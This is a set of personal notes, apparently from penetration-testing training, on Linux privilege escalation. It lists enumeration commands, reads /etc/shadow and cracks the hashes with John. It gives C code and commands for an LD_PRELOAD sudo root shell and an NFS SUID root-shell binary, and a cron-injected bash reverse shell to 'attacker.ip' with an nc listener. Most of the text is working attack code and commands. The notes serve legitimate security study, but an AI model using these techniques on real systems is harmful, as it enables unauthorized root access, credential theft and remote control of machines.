 
#### Enumeration
* `hostname`
* `uname -a`
* `cat /proc/version`
* `cat /etc/issue`
* `ps -A`
* `ps axjf` - tree view
* `ps aux` - all processes
* `env`
* `sudo -l`
* `id <username>`
* `cat /etc/passwd` - list of users
* `cat /etc/shadow` - password hashes
	* `unshadow /etc/passwd /etc/shadow > combined.txt`
	* `jonh --wordlist=/usr/share/wordlists/rockyou.txt combined.txt`
* `history`
* `ifconfig`
* `ip route`
* `netstat -a` - all open ports, `netstat -at` or `netstat -au` - tcp/udp, `nestat -l` - listening mode
* `netstat -tp`: list connections with the service name and PID information
* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
* `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit
##### Automated tools
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

#### Kernel exploits
* https://github.com/The-Z-Labs/linux-exploit-suggester
* https://www.cvedetails.com/
#### sudo
* run `sudo -l`
* Check binaries at https://gtfobins.github.io/

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
	```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

#### SUID
1. c will list files that have SUID or SGID bits set.
2. Check gtfobins

#### Capabilities
1. `getcap -r /`
2. Check gtfobins

#### Cron
1. `cat /etc/crontab`
2. Modify available cron script and add your code there: 
```bash
bash -i >& /dev/tcp/attacker.ip/6666 0>&1   
```
3. Listen on attacker machine: `nc -nlvp 6666`

#### PATH
 If we type “thm” to the command line, these are the locations Linux will look in for an executable called thm. The scenario below will give you a better idea of how this can be leveraged to increase our privilege level. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.
1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?
![[Pasted image 20250118162215.png]]
Find writable dirs:
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
![[Pasted image 20250118162417.png]]
![[Pasted image 20250118162441.png]]

#### NFS

List mountable devices `cat /etc/exports`

On attacker machine: 
`showmount -e <ip>`
`mount -o rw <ip>:/backups /tmp/bd`

Create executable with SUID set and run on attacker machine:
```c
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```

## tar unarchive wildcard
https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com

## Misc
* `ss -tunlp` to find hidden ports
* sudo -l
* crontabs
* winpeas & inpeas 